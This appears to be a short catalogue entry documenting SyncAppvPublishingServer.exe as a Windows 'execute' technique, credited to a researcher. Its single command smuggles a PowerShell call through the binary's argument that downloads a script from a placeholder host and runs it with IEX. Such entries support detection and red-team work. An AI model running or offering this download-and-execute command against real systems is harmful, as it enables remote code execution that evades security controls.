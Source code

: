 ## SyncAppvPublishingServer.exe

* Functions: Execute

```
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX
```

Acknowledgements:
* Nick Landers - @monoxgas
